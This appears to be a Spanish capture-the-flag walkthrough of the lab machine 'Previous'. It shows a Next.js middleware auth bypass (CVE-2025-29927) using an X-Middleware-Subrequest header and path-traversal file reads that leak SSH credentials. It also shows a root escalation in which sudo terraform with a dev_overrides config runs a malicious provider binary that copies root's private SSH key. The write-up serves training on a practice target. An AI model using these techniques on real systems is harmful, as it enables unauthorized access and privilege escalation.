

# Previous

**Dificultad:** Medium  
**SO:** Linux  

## Metodología

### Reconocimiento inicial

#### Reconocimiento del SO y puertos con NMAP
Comprobamos que es una maquina linux por el ttl ~ 64.
Reconocimiento inicial con nmap.

```bash
ping -c 4 10.10.11.83
nmap -sS -p- --min-rate 5000 10.10.11.83 -oG allPortsPrevious
nmap -sCV -p 22,80 -n -nP 10.10.11.83 -oA sondeoPrevious
```


#### Actualizar /etc/hosts (actúa como dns local)
Asociamos el nombre del host (previous.htb) con su dirección IP (10.10.11.83).

```bash
nano /etc/hosts
```


### Reconocimiento web

#### Análisis con Wappalyzer

Permite identificar las `tecnologías` que se utilizan en esta `web`.


#### Contacto

En la sección de contacto nos deja enviar un correo a jeremy@previous.htb, por lo que ya tengo un potencial usuario.


#### Enumeración de subdirectorios con Feroxbuster

Enumerando me encuentro posibles rutas con 200, entre ellas `http://previous.htb/_next/static/qVDR2cKpRgqCslEh-llk9/_buildManifest.js`. Para verlas de una manera más agradable tiro de burp.

```bash
feroxbuster -u http://previous.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```



En el `_buildManifest.js` se observan 2 rutas interesantes; `/docs/content/getting-started` y `/docs/content/examples`, pero  al intentar acceder a ellas me redirige al login.


### Burpsuite

#### CVE-2025-29927 Authorization Bypass in Next.js Middleware

Al saber que el servidor corre `Next.js 15.2.2`, existe un `bypass de la autenticación` en las versiones > 15.0 < 15.2.3 (entre otras) con el que se puede `acceder a rutas protegidas`.

Si añadimos un `Header pesonalizado (X-Middleware-Subrequest)` podemos acceder al contenido restringido.

Un ejemplo de la request HTTP:

```http
GET /dashboard HTTP/1.1
Host: abc.com
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

[CVE-2025-29927](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)
[PoC](https://github.com/MuhammadWaseem29/CVE-2025-29927-POC)

#### Burpsuite - Accediendo a las rutas protegidas

Explotando la vulnerabilidad anterior podemos `acceder` a los `recursos de /docs/content` mencionados anteriormente, para ello se puede utilizar burp.


En la ruta de `examples` encuentro una nueva ruta `/api/download?example=hello-world.ts` con pinta de LFI.

#### Burpsuite - Repeater + LFI + Path traversal

Apuntando al nuevo endpoint, me lo paso al repeater.


Confirmo que tengo LFI + Path traversal.


#### Estructura de la app con ChatGPT

Utilizando a mi colegón veo la estructura tipica de un proyecto Next.js.

```bash
app/                                # App Router (Next 13+)
├── layout.tsx / js
├── page.tsx / js
├── api/                            # API routes (cada carpeta = endpoint)
│   ├── auth/route.ts
│   └── download/route.ts
│
├── pages/                          # (si usan Pages Router legacy)
│   ├── index.js
│   ├── _app.js
│   ├── _document.js
│   └── api/
│       └── hello.js
│
├── public/                         # Archivos estáticos servidos directamente
│   └── favicon.ico
│
├── lib/                            # Helpers (DB, auth, API calls…)
│   ├── db.js
│   └── auth.js
│
├── components/                     # React components compartidos
├── styles/                         # CSS / Tailwind / Sass
├── node_modules/
│
├── package.json                    # Dependencias y scripts
├── package-lock.json / yarn.lock
├── next.config.js                  # Configuración de Next.js
├── tsconfig.json / jsconfig.json
├── .env                            # Variables sensibles (JWT, DB creds…)
└── .gitignore
└── .next/                          # Carpeta de build
    ├── build-manifest.json         # Map de chunks y bundles
    ├── prerender-manifest.json     # Páginas generadas estáticamente
    ├── routes-manifest.json        # TODAS las rutas (pages + api)
    ├── middleware-manifest.json    # Middlewares aplicados
    │
    ├── server/                     # Código compilado de backend
    │   ├── app/                    # App Router compilado
    │   │   ├── page.js
    │   │   └── api/
    │   │       ├── hello/route.js
    │   │       └── download/route.js
    │   │
    │   ├── pages/                  # Pages Router compilado
    │   │   └── api/hello.js
    │   │
    │   ├── chunks/                 # Código dividido en bundles
    │   ├── flight-server-css-manifest.js
    │   └── flight-server-css-manifest.json
    │
    ├── static/                     # Archivos estáticos optimizados
    │   ├── chunks/
    │   └── media/
    │
    └── cache/                      # Cache de build (Webpack/Turbopack)
```

Tras revisar ficheros durante un rato llego al `/app/.next/routes-manifest.json`, encontrando la ruta de autenticación `/api/auth/[...nextauth]`. En Next.js `[...param]` define una `ruta catch-all` que `captura` todas las `subrutas` que empiecen con esa carpeta (como /api/auth/signin /api/auth/session). Además se encuentra bajo la ruta de `/app/.next/server/pages/api/auth/[...nextauth].js` (si no pongo la extensión no matchea con el fichero físico generado por Next.js al compilar).


![Burp repeater /api/auth/[...nextauth].js](images/previous_burp_repeater_api_auth_bundle_compilado.PNG)

Obteniendo las credenciales para `jeremy:MyNameIsJeremyAndILovePancakes`.

#### SSH

Nos conectamos por `SSH` con el usuario `jeremy`.

```bash
ssh jeremy@10.10.11.83
```


#### Escalada a root

El usuario marco puede ejecutar la herramienta `terraform` como root `(root) /usr/bin/terraform -chdir\=/opt/examples apply`.

La opción `-chdir=DIR` `cambia el directorio de trabajo` antes de ejecutar el subcomando `apply` que sirve para `crear o actualizar la infraestructura`.

El fichero `/opt/examples/main.tf` describe cómo funciona el `despliegue`:

```terraform
terraform {
  required_providers {
    examples = {
      source = "previous.htb/terraform/examples"
    }
  }
}

variable "source_path" {
  type = string
  default = "/root/examples/hello-world.ts"

  validation {
    condition = strcontains(var.source_path, "/root/examples/") && !strcontains(var.source_path, "..")
    error_message = "The source_path must contain '/root/examples/'."
  }
}

provider "examples" {}

resource "examples_example" "example" {
  source_path = var.source_path
}

output "destination_path" {
  value = examples_example.example.destination_path
}
```

Utilizando las `variables de entorno de Terraform`, intenté apuntar a otra ruta con `TF_VAR_source_path` pero está capao (validación en main.tf). Después probé con el fichero de configuración `TF_CLI_CONFIG_FILE` que permite `sobrescribir la ruta de un provider concreto mediante dev_overrides`, indicando a Terraform `donde` tiene que buscar el `binario local que implementa el provider`, ignorando la verificación de versiones y checksums, por lo que me monté uno en `/dev/shm/provider` con lo siguiente:

```terraform
provider_installation {
        dev_overrides {
                "previous.htb/terraform/examples" = "/dev/shm"
        }

        direct {}
}
```

`Development overrides` permite `sobrescribir` la `ruta local del provider`, esto funciona ya que la `version de Terraform` que corre es `superior a la v0.13` (Terraform v1.13.0).
Es decir, ahora va a tratar de `ejecutar el binario que implemente el provider 'examples' en /dev/shm` como un plugin de Terraform `con privilegios de root` (sudo -l), por lo que me creo uno:

```c
#include<stdlib.h>

int main () {
    system("cp /root/.ssh/id_rsa /dev/shm/root_id_rsa");
    system("chown jeremy:jeremy /dev/shm/root_id_rsa");
    system("chmod 600 /dev/shm/root_id_rsa");
    return 0;
}
```

[!NOTE] El nombre del ejecutable debe ser exactamente `terraform-provider-examples`, pues es `examples` el `nombre del plugin` que se va a buscar desde el main.tf.

```bash
gcc binario.c -o terraform-provider-examples
sudo TF_CLI_CONFIG_FILE=/dev/shm/provider terraform -chdir=/opt/examples apply
```


El plugin no lo reconoce pues `falla al negociar` el handshake inicial del protocolo `go-plugin`, pero eso no es problema pues `el binario ya ha sido lanzado como root`.


[Terraform Documentation](https://developer.hashicorp.com/terraform/docs)
[Terraform TFI-CLI-CONFIG_FILE](https://developer.hashicorp.com/terraform/cli/config/environment-variables#tf_cli_config_file:~:text=TF_STATE_PERSIST_INTERVAL%3D100-,TF_CLI_CONFIG_FILE,-The%20location%20of)
[Terraform Overrides](https://developer.hashicorp.com/terraform/cli/config/config-file#development-overrides-for-provider-developers:~:text=Development%20Overrides%20for%20Provider%20Developers)

### Limpieza del entorno
Una vez terminada la máquina, toca limpiar todos los archivos creados para mantener el entorno limpio.

